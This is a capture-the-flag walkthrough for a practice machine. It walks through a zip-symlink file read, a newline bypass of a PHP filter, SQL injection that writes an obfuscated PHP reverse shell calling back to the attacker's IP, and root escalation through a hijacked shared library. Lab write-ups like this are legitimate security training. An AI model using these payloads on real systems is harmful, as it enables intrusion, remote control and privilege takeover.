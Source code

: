 # Zipping - HTB Machine - Medium

________________
### Nmap

PORT   STATE SERVICE REASON  VERSION
**22**/tcp open  ssh     syn-ack OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)

**80**/tcp open  http    syn-ack Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: **Apache/2.4.54** (Ubuntu)

### Website Enum

The Website is a simple website with a shop and an upload function. 
In the "work for us" page They ask us to upload a file that must be **.zip** with a mandatory **.pdf** inside.

#### Upload

When we upload a zip file with a pdf inside the app decompress the zip and put the PDF inside an upload folder and make a random md5 hash folder between the file and the upload dir.

```
File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:
uploads/42c8a542c2c47451d3190adb93423ff3/Something.pdf
```

In *HackTricks* I found this:
- https://book.hacktricks.xyz/pentesting-web/file-upload

> If you can upload a ZIP that is going to be decompressed inside the server, you can do:

```sh
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
tar -cvf test.tar symindex.txt
```

So We can try:

```sh
ln  -s ../../../../../../../etc/passwd e_pass.pdf	# Make a symbolik Link of /etc/passwd named e_pass.pdf
zip --symlinks e_pass.zip e_pass.pdf			# Zip the symbolik link
# ---> Upload
```

Before opening the file to see the /etc/passwd file we need to intercept with burpsuite in order to see it.
It Works!

So Now we need to dig more and enumerate every page.

```sh
ln  -s ../../../../../../var/www/html/shop/index.php shop_index.pdf
zip --symlinks shop_index.zip shop_index.pdf

ln  -s ../../../../../../var/www/html/index.php index.pdf
ln  -s ../../../../../../var/www/html/shop/functions.php shop_functions.pdf
# do this for every pages until somethhing pops up..
```

Inside **/shop/functions.php** we found that the database used from the App to make the various interactions is authenticating as root.

```php
    // Update the details below with your MySQL details
    $DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
```

In **/shop/cart.php** the two parameters in Post request have a vulnerable preg_match function.
```php
preg_match(/^.*/)
```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.

```php
// cart.php
...
   // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match))
```

To bypass this check you could send the value with **new-lines urlencoded (%0A)** or if you can send JSON data, send it in several lines:

## Foothold

Our Goal is to send the Payload via POST request into the "product_id" parameter.
We are going to target the MySQL database to create a new php page inside /var/lib/mysql where we can write because we have root privileges into the database and we can write and read from the webapp.

#### MySQL injection to write into outfile

From google:
```
There's a built-in MySQL output to file feature as part of the SELECT statement. We simply **add the words INTO OUTFILE, followed by a filename, to the end of the SELECT statement**. For example: SELECT id, first_name, last_name FROM customer INTO OUTFILE '/temp/myoutput
```

So we can write via mysql injection but the parameter is url encoded so we will do some base64 encoding:

### Path to Reverse Shell 

-  RevShell:
```sh
bash -i >& /dev/tcp/10.10.14.23/6666 0>&1
```

- PHP page to inject into new file:
```php
# Double base64 encode the Reverse Shell First, then the php code will decode it twice!!
<?php exec("echo WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0eU15ODJOalkySURBK0pqRT0= | base64 -d | base64 -d | bash"); ?>
```

1. Base64 encode the whole php code:
```
PD9waHAgZXhlYygiZWNobyBXVzFHZW1GRFFYUmhVMEVyU21sQmRscEhWakpNTTFKcVkwTTRlRTFETkhoTlF6UjRUa00wZVUxNU9ESk9hbGt5U1VSQkswcHFSVDA9IHwgYmFzZTY0IC1kIHwgYmFzZTY0IC1kIHwgYmFzaCIpOyA/Pg==
```

2. MySQL Injection
```mysql
';select from_base64("PD9waHAgZXhlYygiZWNobyBXVzFHZW1GRFFYUmhVMEVyU21sQmRscEhWakpNTTFKcVkwTTRlRTFETkhoTlF6UjRUa00wZVUxNU9ESk9hbGt5U1VSQkswcHFSVDA9IHwgYmFzZTY0IC1kIHwgYmFzZTY0IC1kIHwgYmFzaCIpOyA/Pg==")+into+outfile+'/var/lib/mysql/rev.php'; --
```

3. Insert the %0A that will execute a new line, bypassing the preg_match and remember to URL encode everything:

```http
%0A'%3bselect+from_base64("PD9waHAgZXhlYygiZWNobyBXVzFHZW1GRFFYUmhVMEVyU21sQmRscEhWakpNTTFKcVkwTTRlRTFETkhoTlF6UjRUa00wZVUxNU9ESk9hbGt5U1VSQkswcHFSVDA9IHwgYmFzZTY0IC1kIHwgYmFzZTY0IC1kIHwgYmFzaCIpOyA/Pg==")+into+outfile+'/var/lib/mysql/rev.php'%3b --
```

4. Open a Netcat Listener with the port chosen
5. Send the POST request with Burpsuite
6. Trigger the reverse shell visiting: http://MACHINE_IP/shop/index.php?page=/var/lib/mysql/rev
7. Go grab the flag!

## Privesc to ROOT

As always, first command as a real user (after getting the flag) is "sudo -l".

```sh
sudo -l
...
User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

We can run the binary "/usr/bin/stock" as root.
The program ask for a password that is hardcoded inside the program, we can find it just with cat command and a little bit of good eye or with strings command:

```sh
cat /usr/bin/stock
#or
strings /usr/bin/stock
```

password: **St0ckM4nager**

Running the program itself it's not really helpfull.
We need to see the workflow as we are using the program.
For this job we'll use "**strace**". 

### Strace 
Strace allow us to see under the hood while we use the program so we better see how it is working, what library the binary call etc..

```sh
strace /usr/bin/stock

# .....
# read(0, St0ckM4nager
# "St0ckM4nager\n", 1024)         = 13
# openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so
# .....
```

After running the command, insert the password, we can see that the program try to open a file from the /home/ directory: "/home/rektsu/.config/libcounter.so". The only problem is that file does not exist.

**Hacktricks come to help us .....again!
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ld.so.conf-example

1. Make a C file like this and name it libcounter.c:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
} 
```

2. Compile the file and redirect the output to create the missing file:
```sh
gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC libcounter.c
```

3. Execute the binary
```sh
sudo /usr/bin/stock
# enter the password
```

4. Get the root Flag!!